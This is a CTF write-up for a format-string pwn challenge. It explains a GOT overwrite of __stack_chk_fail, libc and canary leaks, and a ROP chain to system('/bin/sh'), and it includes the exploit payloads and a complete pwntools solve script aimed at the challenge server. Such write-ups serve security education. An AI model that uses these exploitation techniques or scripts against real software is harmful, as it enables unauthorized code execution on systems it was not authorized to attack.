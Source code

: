 ## 1. Printf

author: 0x1337
points: 495

the checksec output shows
```
  Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

WoW! we have partial RelRo cant wait for GOT overwrites.

the decomp:
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4[2]; // [rsp+8h] [rbp-228h] BYREF
  __int64 buf[68]; // [rsp+10h] [rbp-220h] BYREF

  buf[67] = __readfsqword(0x28u);
  memset(buf, 0, 0x210uLL);
  buf[64] = 1LL;
  buf[65] = (__int64)&buf[64];
  v4[1] = 0;
  v4[0] = 0;
  puts("Easy peasy printf, don't you think?");
  printf("I feel generous so have this: %p\n", main);
  putchar(62);
  __isoc99_scanf("%u", v4);
  if ( v4[0] > 0x20u )
  {
    printf("not this again :)");
    exit(0);
  }
  buf[65] += (unsigned int)v4[0];
  puts("Show me what you've got!");
  printf("> ");
  read(0, buf, 0x200uLL);
  puts("Here we go!!");
  printf((const char *)buf);
  return 0;
}
```



If you're unfamiliar with format strings i recommend you to first read this excellent [blog](https://axcheron.github.io/exploit-101-format-strings/) which explains most of the stuff required in detail.

As you can see, we once again have one shot at printf here... but on stack leak this time,
so we cant modify the RIP in printf's frame easily without some bruteforce.

Instead we have PIE leak:
```c
 printf("I feel generous so have this: %p\n", main);
 ```

 And seeing that the binary has partial relro, you should start which got should we be overwriting
 using this leak.
 Another wonderful thing is the stack pointer present in the buffer area which gets modified based on
 our first input

 ```c
 buf[64] = 1LL;
 buf[65] = (__int64)&buf[64];
 ```
```c
buf[65] += (unsigned int)v4[0];
```
`v4` here cant be greater than 32, No problem! we can add '24' to so `buf[64]` will now contain
a pointer to where canary is!!

This is great because if we trigger `__stack_chk_fail` by overwriting canary, we can call main again!
by overwriting the GOT entry of `__stack_chk_fail` with `main` address


So our first payload will try leak libc address and stack address (the stack address where canary is)
and also overwrite GOT entry for  `__stack_chk_fail` as well as canary.

![stack.png](stack.png)

The payload:
```python
sz = exe.sym.main & 0xffff
sz -= 34
pl = b'.%77$p.%73$p.aaa'+f'%{sz}c%14$hnaa'.encode()+b'%2c%73$hnaaaaaaaa'+p64(exe.got['__stack_chk_fail'])
```

Let's deconstruct this payload, here i am leaking 77th and 73rd indexes which contain the libc address
and stack canary addresss respectively
Also the offset of controllable area is again 8 
Then i overwrite the 2 bytes on GOT `__stack_chk_fail` to make it `main` and overwrite canary by doing
`%2c%72$hn`

the `a`s are there for padding 

as you can see, on doing `x/100gx $rsp` after putting a bp on printf
you can see
```
0x7ffc35b49198:	0x00007ffc35b491a8	0x0000000000000000
0x7ffc35b491a8:	0xd7fcc47afa37d700	0x0000000000000001
```
we indeed have a pointer to canary which is the on 73rd index
and

```
0x7ffc35b48f88:	0x0000000000000018	0x252e70243737252e
0x7ffc35b48f98:	0x6161612e70243337	0x2563353932333325
0x7ffc35b48fa8:	0x2561616e68243431	0x6e68243337256332
0x7ffc35b48fb8:	0x6161616161616161	0x000055556f64b010
```

where 0x18 was the num we entered to get it to point to stack_canary and our payload after that.

So we get our leaks, and write the LSB of the canary and the 2bytes of GOT entry
giving us a shot to call main again

like in the previous challenge we once again calculate the rip in printf's stack frame and write our
rop chain in there using pwntools

```python
write = { rip:pop_rdi,rip+8:binsh,rip+16:ret,rip+24:libc.sym.system}
pl = fmtstr_payload(8,write)
```

And finally get our shell


The solve script:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./printf2_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
context.terminal= ['alacritty','-e','bash','-c']


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("pwn.blitzhack.xyz",3333)
        context.noptrace=True

    return r


def main():
    r = conn()
    r.recvuntil(b'this:')
    exe.address =  int(r.recvline().strip(),16) -exe.sym.main
    log.info(f'pie : {hex(exe.address)}')
    off = 8
    r.sendlineafter(b'>',b'24')
    sz = exe.sym.main & 0xffff
    sz -=34
    pl = b'.%77$p.%73$p.aaa'+f'%{sz}c%14$hnaa'.encode()+b'%2c%73$hnaaaaaaaa'+p64(exe.got['__stack_chk_fail'])
    print(pl)
    gdb.attach(r)
    r.sendlineafter(b'>',pl)
    l = r.recvuntil(b'aaaaaa')
    print(l)
    libc.address = int(l.split(b".")[1],16) -0x29d90
    stack = int(l.split(b".")[2],16)
    log.info(f"libc : {hex(libc.address)}")
    log.info(f"stack : {hex(stack)}")
    pop_rdi =  libc.address+0x2a3e5
    ret = pop_rdi+1
    binsh = next(libc.search(b'/bin/sh'))
    #one_gad = libc.address + 0x583e3
    #pop_rbx = libc.address+0xef52b
    stk = exe.got['__stack_chk_fail']
    rip = stack-0x470
    log.info(f"the rip :{hex(rip)}")
    write = { rip:pop_rdi,rip+8:binsh,rip+16:ret,rip+24:libc.sym.system}

    pl = fmtstr_payload(8,write)
    print(len(pl))
    sleep(1)
    r.sendlineafter(b'>',b'24')
    r.sendlineafter(b'>',pl)
    r.interactive()


if __name__ == "__main__":
    main()
```
